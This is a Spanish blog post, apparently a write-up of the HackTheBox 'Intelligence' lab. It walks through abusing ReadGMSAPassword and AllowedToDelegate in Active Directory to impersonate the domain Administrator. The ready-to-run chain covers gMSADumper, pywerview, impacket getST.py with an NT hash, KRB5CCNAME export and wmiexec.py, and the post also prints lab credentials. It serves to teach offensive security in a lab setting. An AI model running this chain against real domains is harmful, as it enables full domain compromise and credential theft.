 ```yaml
---
title: Active Directory - Abusando del Permiso AllowedToDelegate
description: Abusando del permiso AllowedToDelegateTo para poder impersonar al usuario Administrator mediante un ticket ST.
date: 2024-11-06
categories: [active-directory, allowed-to-delegate]
tags: [allowed-to-delegate-to, impersonar, gmsa, tgs, cuenta-de-servicio, ccache, getst, impacket, gmsadumper, pywerview, spn, hash-nt, service-ticket, st, krb5ccname, wmiexec, bloodhound]
img_path: /assets/img/Abusing-AllowedToDelegate-Rights.png
image: /assets/img/Abusing-AllowedToDelegate-Rights.png
---
```


## **Introducción**

El atributo **AllowedToDelegate** determina qué servicios o cuentas pueden delegar sus credenciales a otros servicios en nombre de un usuario o grupo. Si un atacante consigue acceso a una cuenta con permisos de delegación, puede utilizar esos derechos para **impersonar a otros usuarios y acceder a sus recursos**, incluso si esas cuentas tienen privilegios más altos.

### **Gráfico del escenario**

El siguiente, es un gráfico representativo de lo que acabamos de explicar.

![Abusing AllowedToDelegate Rights](/assets/img/Abusing-AllowedToDelegate-Rights.png)

### **Contexto**

Nos encontramos con el usuario *Ted.Graves* con el cual hemos obtenido sus credenciales. Este usuario pertenece al grupo *ITSupport* desde donde tiene permiso de *ReadGMSAPassword* sobre la cuenta de servicio **svc_int**. Los **Group Managed Service Accounts** o *GMSA* son un tipo de objeto especial de **Active Directory** en el que la contraseña de dicho objeto es gestionada automáticamente por los DC del dominio.

>**Sobre los Group Managed Service Accounts (GMSA)**<br>
>El uso normal de una *GMSA* es permitir que determinadas cuentas de equipo recuperen la contraseña de la *GMSA* y, a continuación ejecuten servicios locales como *GMSA*, sin embargo, un atacante con control sobre una cuenta autorizada puede abusar de este privilegio para hacerse pasar por la *GMSA*.
{: .prompt-info}

Una vez que obtengamos la contraseña de la *GMSA* de **svc_int**, vemos que tenemos el privilegio *AllowedToDelegate* sobre *dc.intelligence.htb*. Este privilegio nos otorga la capacidad de solicitar el *Service Ticket* (*TGS*) del usuario *Administrator*. Usando herramientas como `getST.py`, almacenaremos ese ticket de servicio en un archivo `.ccache`. Este archivo contiene las credenciales necesarias para poder autenticarnos en el DC (*dc.intelligence.htb*).

## **Manos a la obra**
### **Leyendo la contraseña GMSA**

Al lanzar **BloodHound**, nos encontramos con el siguiente caso potencial de escalada de privilegios.

![BloodHound máquina Intelligence](/assets/img/BloodHound-maquina-Intelligence.png)

Nosotros como *Ted.Graves*, tenemos el permiso para leer la contraseña de la cuenta de servicio **GMSA** asociada a **svc_int**. Para ello, usaremos la herramienta `gMSADumper.py` la cual, podremos descargar del [repositorio oficial de GitHub](https://github.com/micahvandeusen/gMSADumper). Con el parámetro `-u` le indicaremos nuestro usuario y con `-p` su contraseña. Por último, le indicaremos el dominio con el parámetro `-d`.

```bash
gMSADumper.py -u 'USUARIO' -p 'CONTRASEÑA' -d 'DOMINIO'
```

Una vez ejecutado, el resultado que obtendremos será el *hash NT* del usuario *svc_int*.

![gmsadumper con ted graves para svc_int](/assets/img/gmsadumper-con-ted-graves-para-svc_int.png)

### **Unconstrained Delegation**

Para poder usar la herramienta `getST` e impersonar al usuario **Administrator** utilizando el _hash NT_ obtenido, primero necesitamos identificar el **SPN** (_Service Principal Name_) asociado a la cuenta de servicio **svc_int** que tiene el privilegio de **AllowedToDelegate**.

Para obtener este *SPN*, utilizaremos la herramienta `pywerview`. Con el módulo `get-netcomputer` y el parámetro `--full-data`, podremos recuperar la información completa sobre los grupos. Una vez ejecutado el comando, deberemos revisar los resultados y enfocarnos en el valor `msds-allowedtodelegateto`, ya que ese valor contendrá el **SPN** necesario para realizar la **delegación de servicios**.

```bash
pywerview get-netcomputer -u "Ted.Graves" -p "Mr.Teddy" -t 10.10.10.248 --full-data
```

![spn de svc_int pywerview](/assets/img/spn-de-svc_int-pywerview.png)

Ahora sí, con `getST` de la suite de *impacket*, indicaremos:

- `-spn` ➜ El **SPN** que hemos obtenido.
- `-impersonate` ➜ El usuario que queremos **impersonar** (*Administrator*).
- `-hashes` ➜ El **hash NT** del usuario *svc_int*.

```bash
getST.py -spn "WWW/dc.intelligence.htb" -impersonate "Administrator" -hashes ":1d7a055a77db01cde7db3f4d006081fb" intelligence.htb/svc_int
```

![obteniendo ccache del administrador](/assets/img/obteniendo-ccache-del-administrador.png)

Si visualizamos el contenido de nuestro directorio, veremos el fichero `Administrator@WWW_dc.intelligence.htb@INTELLIGENCE.HTB.ccache` el cual, contiene el ticket de servicio del **administrador del dominio** con el cual, le podremos impersonar.

![ticket de servicio archivo ccache](/assets/img/ticket-de-servicio-archivo-ccache.png)

Renombraré el fichero como `Administrator.ccache` y, para poder usar este ticket, es necesario exportar la variable *KRB5CCNAME* con el nombre del archivo `ccache`. Esto paso es fundamental para podernos autenticar con `wmiexec`.

```bash
export KRB5CCNAME=Administrator.ccache
```

Por último con `wmiexec` conseguiremos autenticarnos como el usuario *Administrator*, indicándole con el parámetro `-k` que queremos usar un *Service Ticket* el cual, hemos configurado en la variable de entorno *KRB5CCNAME*.

```bash
wmiexec.py dc.intelligence.htb -k
```

![conectandonos con el usuario administrator por archivo ccache](/assets/img/conectandonos-con-el-usuario-administrator-por-archivo-ccache.png)

Con el usuario *Administrator* en nuestro poder, podemos realizar cualquier acción sobre el dominio completo.

## **Enlaces de referencia**

Los siguientes son recursos de utilidad que me ayudaron a realizar este artículo y, a aprender sobre ello.

- [Unconstrained Delegation Kerberos](https://deephacking.tech/unconstrained-delegation-kerberos/)
- [Máquina Intelligence - HackTheBox](https://app.hackthebox.com/machines/Intelligence)
- [Resolución de la máquina Intelligence - S4vitar](https://www.youtube.com/watch?v=LI8wnTUc5-I)
- [Buscador de máquinas de S4vitar por categorías](https://infosecmachines.io/)

## **Despedida**
Espero que te haya servido de ayuda este artículo. ¡Nos vemos en el próximo!

